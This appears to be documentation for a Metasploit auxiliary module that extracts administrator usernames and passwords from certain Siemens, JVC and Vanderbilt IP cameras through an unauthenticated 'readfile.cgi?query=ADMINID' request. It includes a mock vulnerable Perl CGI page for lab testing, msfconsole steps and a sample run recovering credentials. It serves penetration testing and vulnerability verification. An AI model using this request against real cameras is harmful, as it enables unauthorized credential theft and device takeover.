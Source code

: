 ## Description

  SIEMENS IP-Camera (CVMS2025-IR + CCMS2025), JVC IP-Camera (VN-T216VPRU),
  and Vanderbilt IP-Camera (CCPW3025-IR + CVMW3025-IR)
  allow an unauthenticated user to disclose the username & password by
  requesting the javascript page 'readfile.cgi?query=ADMINID'.
  Siemens firmwares affected: x.2.2.1798, CxMS2025_V2458_SP1, x.2.2.1798, x.2.2.1235

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/readfile.cgi`:

```
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );
my $data = <<'DATA';
var Adm_ID="admin";
var Adm_Pass1="password";
var Language="en";
var Logoff_Time="0";
DATA
if ($Q::query == "ADMINID") {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/ipcamera_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
  msf5 > use auxiliary/gather/ipcamera_password_disclosure 
  msf5 auxiliary(gather/ipcamera_password_disclosure) > set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  msf5 auxiliary(gather/ipcamera_password_disclosure) > run
  
  [+] Found: admin:password
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
